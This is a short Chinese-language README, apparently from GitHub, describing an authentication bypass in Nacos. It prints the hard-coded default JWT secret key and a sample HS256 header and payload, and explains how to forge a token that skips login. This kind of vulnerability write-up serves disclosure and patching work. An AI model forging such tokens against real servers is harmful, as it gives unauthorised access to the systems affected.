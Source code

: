 # Nacos-auth-bypass

Nacos 身份认证绕过

原理:
JWT SECRET.KEY硬编码

由补丁可知：
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789

JWT构成：base64编码的header.base64编码的payload+hmac(f(header,payload,key))

由于key硬编码，因此可以根据header+payload构造hmac  通过签名认证
header：
{
  "alg": "HS256"
}

payload：
{
  "sub": "nacos",
  "exp": 1678806359   //这里是时间戳
}

key=SecretKey012345678901234567890123456789012345678901234567890123456789
据此构造json web token 添加到请求头   即可绕过登录认证

![image](https://user-images.githubusercontent.com/55875284/224986445-1d78e6c9-ae8b-4f3f-9b73-0e1e82babd86.png)
